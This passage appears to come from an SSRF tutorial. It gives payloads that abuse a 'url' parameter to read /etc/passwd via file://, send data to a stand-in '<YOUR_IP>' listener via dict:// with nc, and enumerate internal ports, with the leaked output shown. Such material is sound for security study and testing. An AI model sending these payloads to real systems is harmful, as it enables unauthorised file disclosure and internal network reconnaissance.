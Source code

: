   We can use `file://` to get internal files:

**file usage.**

``` text
    product_id=&url=file%3a///etc/passwd&s=OK
    ...
    <div class="row d-flex justify-content-center">
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    ...
```

We can also use the `dict://` URL schema to connect to a server and send
data:

**dict usage.**

``` text
    $nc -lvp 8000
    # Payload
    product_id=&url=dict%3a//<YOUR_IP>%3a8000/pwned&s=OK
    ...
    Ncat: Connection from IP:PORT.
    CLIENT libcurl 7.47.0
    pwned
    QUIT
    ...
```

This is useful when we find another vulnerable server or service,
because we can send data to it and maybe even execute commands.

- **Port enumeration**

  .port enum



``` text
    # Port open
    product_id=&url=127.0.0.1%3a3306&s=OK
    ...
    <div class="row d-flex justify-content-center">
    5.5.5-10.0.38-MariaDB-0ubuntu0.16.04.1
    ...
    # Port closed
    ...
    <div class="row d-flex justify-content-center">
    </div>
    ...
```

- **Cloud goodies**
